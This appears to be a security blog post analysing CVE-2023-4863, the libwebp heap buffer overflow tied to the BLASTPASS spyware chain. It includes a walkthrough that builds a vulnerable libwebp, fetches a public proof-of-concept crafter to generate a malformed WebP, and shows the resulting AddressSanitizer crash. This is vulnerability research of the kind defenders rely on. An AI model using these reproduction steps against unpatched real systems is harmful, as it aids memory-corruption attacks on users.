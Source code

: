 ```yaml
---
title: "CVE-2023-4863: The WebP 0day"
categories:
  - CVEs
tags:
  - CVEs
---
```

Last month, a new zero-day vulnerability was uncovered when Google released a critical update for its Chrome browser. A warning that accompanied the CVE announcement said "Google is aware that an exploit for CVE-2023-4863 exists in the wild": an active threat actor has already exploited this vulnerability. 

**CVE-2023-4863:** Heap buffer overflow in libwebp in Google Chrome prior to 116.0.5845.187 and libwebp 1.3.2 allowed a remote attacker to perform an out of bounds memory write via a crafted HTML page.
{: .notice--info}

## Discovery Timeline
The discovery of CVE-2023-4863 is intricately linked to an earlier Apple CVE, CVE-2023-41064. It all began when Citizen Lab detected suspicious activity on an iPhone belonging to an employee of a Washington DC-based civil society organization. Dubbed "BLASTPASS," this activity was attributed to an NSO Group's Pegasus spyware exploit, specifically a zero-click exploit for iMessage.

Apple swiftly responded by releasing a security bulletin, featuring two new CVEs, CVE-2023-41061 and CVE-2023-41064. On these CVEs, Apple noted, "Apple is aware of a report that this issue may have been actively exploited."

The BLASTPASS attack bypassed the iMessage sandbox, likely by embedding a malicious image in a PassKit attachment. This attack corresponds to the first CVE released by Apple, CVE-2023-41061. The second CVE, CVE-2023-41064, identified a buffer overflow vulnerability in ImageIO, Apple's image parsing framework.

However, the key insight comes from the fact that ImageIO recently started supporting WebP files. Shortly before Apple's security bulletin, Apple's team reported a WebP vulnerability to Chrome, which was rapidly patched. Google marked this fix as "exploited in the wild." It appears that the BLASTPASS vulnerability and CVE-2023-4863 (the WebP 0day) are one and the same.

## The WebP 0day - Technical Analysis
The technical analysis of CVE-2023-4863 sheds light on the inner workings of this zero-day vulnerability. By cross-referencing Chrome's bug ID with open source commits in the libwebp library code, an essential patch was identified: "Fix OOB write in BuildHuffmanTable." This patch was created one day after Apple's report and corresponds to CVE-2023-4863.

This vulnerability is associated with the "lossless compression" support for WebP, using Huffman coding. This coding is a critical component of lossless image compression, where an algorithm assigns shorter or longer sequences of output bits based on the frequency of input values. The vulnerability resided in the handling of the Huffman tables when decoding an untrusted image, leading to an out-of-bounds write.
 
To exploit this issue, an attacker would need to manipulate code lengths, allowing them to exceed the pre-calculated buffer size. The complexity of the Huffman tree and the interaction between various factors make crafting a triggering file non-trivial.

## Technical Walkthrough
I simply wanted to walkthrough the POC process, so I leveraged the research of @mistymntcop and @isosceles. They worked together to reproduce the issue and create a buffer overflow. 

I replicated the bug with the following code:
```html
 # checkout webp
$ git clone https://chromium.googlesource.com/webm/libwebp/ webp_test
$ cd webp_test/
  # checkout vulnerable version
$ git checkout 7ba44f80f3b94fc0138db159afea770ef06532a0
  # enable AddressSanitizer
$ sed -i 's/^EXTRA_FLAGS=.*/& -fsanitize=address/' makefile.unix
  # build webp
$ make -f makefile.unix
$ cd examples/
  # fetch mistymntncop's proof-of-concept code
$ wget https://raw.githubusercontent.com/mistymntncop/CVE-2023-4863/main/craft.c
  # build and run proof-of-concept
$ gcc -o craft craft.c
$ ./craft bad.webp
  # test trigger file
$ ./dwebp bad.webp -o test.png
```
This process did take a bit of troubleshooting, as my C compiler did not have all necessary libraries (TIFF, PNG, JPEG). Once I successful, I received the following output:
```html
  SUMMARY: AddressSanitizer: heap-buffer-overflow (/home/kali/webp_test/examples/dwebp+0x9eaec) (BuildId: 4c1cbf5ffb5b244be01b298cd51c59ec4d429d35) in BuildHuffmanTable
Shadow bytes around the buggy address:
  0x626000002c80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002d80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x626000002e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x626000002f00: 00 00 00 00 00[fa]fa fa fa fa fa fa fa fa fa fa
  0x626000002f80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003000: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003080: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003100: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x626000003180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==22919==ABORTING
```
Despite having limited control over the written value, this POC proves that this version of webp is exploitable via buffer overflow.

## Final Thoughts
The discovery of the WebP 0day, CVE-2023-4863, sheds light on the challenges and complexities of zero-day vulnerabilities in widely used open source libraries. This issue underscores the need for a more comprehensive approach to cybersecurity, combining fuzzing, code audits, and manual analysis.
